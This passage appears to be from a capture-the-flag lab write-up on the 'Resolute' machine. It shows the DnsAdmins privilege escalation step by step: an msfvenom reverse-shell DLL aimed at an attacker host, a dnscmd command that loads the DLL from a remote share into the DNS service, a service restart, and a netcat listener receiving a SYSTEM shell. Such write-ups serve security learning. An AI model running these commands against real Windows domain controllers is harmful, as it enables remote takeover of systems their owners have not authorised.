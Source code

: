 - First we create a DLL with a reverse shell as payload

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f dll > exploit.dll
```

- Inject it into the dns.exe process.

```bash
dnscmd RESOLUTE /config /serverlevelplugindll \\10.10.14.12\share\web.dll
```

- Stop and start the service

```bash
cmd /c sc.exe stop dns
cmd /c sc.exe start dns
```

I had to repeat the injection and the restart various times until I got a shell.

```bash
┌──(kali㉿kali)-[~/machines/windows/resolute]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.169] 56380
Microsoft Windows [Version 10.0.14393]                                                                                                                                                                                                      
(c) 2016 Microsoft Corporation. All rights reserved.                                                                                                                                                                                        
                                                                                                                                                                                                                                            
C:\Windows\system32>whoami                                                                                                                                                                                                                  
whoami
nt authority\system
```